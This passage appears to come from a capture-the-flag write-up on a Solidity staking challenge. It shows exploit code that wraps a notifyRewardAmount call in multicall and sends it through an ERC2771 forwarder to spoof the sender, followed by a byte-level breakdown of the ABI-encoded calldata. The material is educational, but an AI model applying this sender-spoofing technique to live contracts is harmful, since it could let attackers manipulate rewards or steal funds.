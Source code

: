 ```solidity

  bytes[] memory payloads = new bytes[](1);
  bytes memory payload = abi.encodeWithSelector(staking.notifyRewardAmount.selector, 100_000_000 * 10 ** 18);
  payloads[0] = payload;
  bytes memory multicallData = abi.encodeWithSelector(staking.multicall.selector, payloads);

  Forwarder.ForwardRequest memory forwardRequest = Forwarder.ForwardRequest({
      from: player,
      to: address(staking),
      value: 0,
      gas: 500_000,
      nonce: forwarder.getNonce(player, timeline),
      deadline: timeline,
      data: multicallData
  });
  bytes32 digest = _getTypedDataHash(forwardRequest);
  (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPrivateKey, digest);
  forwarder.execute(forwardRequest, abi.encodePacked(r, s, v));

```

`multicallData` here corresponds to `0xac9650d800000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000001000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000243c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2e400000000000000000000000000000000000000000000000000000000000000`. Let's try to breakdown the `data` field that we are sending (note that `payloads` is a dynamic type, refer to the [ABI spec](https://docs.soliditylang.org/en/latest/abi-spec.html#use-of-dynamic-types) for more in depth coverage on how dynamic types are encoded):

```

  0xac9650d8                                                        - function signature of `multicall(bytes[])`
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the bytes array start
  0000000000000000000000000000000000000000000000000000000000000001  - the length of the bytes array
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the 1st byte array element start
  0000000000000000000000000000000000000000000000000000000000000024  - length of data to read
  3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2  - actual data
  e400000000000000000000000000000000000000000000000000000000000000  - right padded with 0s to make result a multiple of 32 bytes

```

The actual data embedded corresponds to what we have sent earlier `0x3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2e4000000`, which calls the `notifyRewardAmount` function with an amount `100_000_000 * 10 ** 18` (recall that tokens in this challenge are represented in 18 decimals). The difference here compared to what we did earlier is that the `req.from` field (the address of `player`), is not extracted anymore in the `_msgSender()` function of `ERC2771Context`. Let us observe what is actually happening here:
